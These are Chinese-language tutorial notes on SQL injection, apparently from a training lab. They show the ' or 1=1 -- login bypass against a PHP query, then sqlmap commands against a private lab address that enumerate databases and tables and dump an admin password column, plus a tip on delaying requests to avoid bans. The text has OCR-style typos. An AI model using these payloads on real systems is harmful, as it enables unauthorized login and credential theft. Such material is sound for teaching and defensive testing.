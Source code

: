 SQL ：结构化查询语2句  [数据库代码]
注入：  针管插入你的血管，往里面注射东西
		  把恶意的代码注入到原本的语句中
SQL注入：把恶意的代码注入到sql语句中 [恶意代码]

`"elect * from admin where username='$username' and password ='$password'";

$username 是用户的传参
$password是用户的传参
select * from admin where username=’admin‘ and password = '123456'

不知道别人密码的情况下如何登录别人账号？

万能密码(sql注入)
密码： ’ or 1=1 --qwe    （引号内是字符串，引号外是代码） 闭合
把原有的语句闭合掉，然后让后面运行自己写的恶意语句

select * from admin where usename=‘admin‘ and password = ' ' or 1=1 -- qwe'

and 两个条件都满足才可以

or 一个条件满足就行了

True and False or  True

False or True

得到结果了

-- 空格  // 注释 ，里面写的东西不是代码，他是对代码的解释
		空格写在传参末尾，非常容易被处理掉 -- qwe

SQL注入： 用户输入的数据当作了SQL代码进行执行 （SQL语句）

	-u "可能存在注入的地址" // 检测是否存在注入
			// boolean-based blind  布尔盲注
			// error-based  报错注入
			// time-based blind  时间盲注

库 表  字段 [数据]

	--dbs  查库  -D 指定库名
sqlmap.py -u "http://192.168.88.131/index.php?username=admin&password=%27+or+1%3D1+--+qwe%27&den=%B5%C7%C2%BD" --flush-session --dbs

	--tables 查表  -T 指定表
sqlmap.py -u "http://192.168.88.131/index.php?username=admin&passord=123456&den=%B5%C7%C2%BD" -D aadc --tables

	--colums  查字典 -C 指定字段
sqlmap.py -u "http://192.168.88.131/index.php?username=admin&passord=123456&den=%B5%C7%C2%BD" -D aadc -T admin --colums

	--dump 托数据[慎重]

sqlmap.py -u "http://192.168.88.131/index.php?username=admin&passord=123456&den=%B5%C7%C2%BD" -D aadc -T admin -C password --dump

	--delay=1   // 访问延迟，一秒一次 [ban  关小黑屋]

	 --flush-session   // sqlmap也会偷懒，只要跑过的数据，他会缓存，缓存之后就不跑了
